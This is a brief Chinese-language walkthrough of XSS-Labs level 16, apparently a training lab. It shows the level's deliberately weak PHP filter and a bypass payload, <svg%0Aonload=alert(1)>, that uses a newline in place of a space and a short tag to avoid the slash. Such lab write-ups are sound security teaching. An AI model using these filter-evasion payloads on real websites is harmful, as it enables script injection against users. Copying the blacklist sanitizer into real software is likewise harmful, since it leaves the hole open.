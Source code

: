 ### 回车代替空格绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十六关**

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level17.php?arg01=a&arg02=b"; 
}
</script>
<title>欢迎来到level16</title>
</head>
<body>
<h1 align=center>欢迎来到level16</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
<center><img src=level16.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
?>
</body>
</html>
```

空格被实体化了，采用回车代替，URL 编码是 `%0A`

`/` 被过滤了，采用短标签绕过

```html
?keyword=<svg%0Aonload=alert(1)>
```

![](https://pic1.imgdb.cn/item/681486ca58cb8da5c8d6bc81.png)
